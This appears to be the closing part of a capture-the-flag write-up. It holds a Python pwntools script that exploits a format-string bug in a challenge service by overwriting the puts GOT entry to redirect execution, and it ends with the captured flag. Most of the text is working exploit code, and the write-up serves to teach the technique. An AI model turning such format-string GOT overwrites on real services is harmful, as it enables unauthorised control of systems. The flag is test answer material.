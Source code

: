 ```python
else:
    p = remote("yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg",30121)

# helper functions
def makereport(report):
    p.clean()
    p.sendline(str(1))
    p.clean()
    p.sendline(report)
    log.info(p.recv())

def viewreport(name,reportno):
    p.clean()
    p.sendline(str(2))
    p.clean()
    p.sendline(name)
    p.clean()
    p.sendline(reportno)

# Creating the payload
payload = fmtstr_payload(11-6,{context.binary.got['puts']:context.binary.symbols['unknownfunction']},write_size='short')
# Splitting the payload into puts got address
# Suppose to go into the stack
writelocation = payload[-8:]
# Splitting the payload to get the string format portion 
# Suppose to go into the heap
strfmt = payload[:-8]
# debugging
print(strfmt)
p.clean()
# Calling the magicfunction
p.sendline(str(4))
# Sending our string format to the heap
makereport(strfmt)
# Sending our puts got address into the username and triggering the exploit
viewreport(writelocation,str(1))
# Yay flag!
p.interactive()
```
## Flag
`govtech-csg{c0v1d_5y5tem_d0wn!}`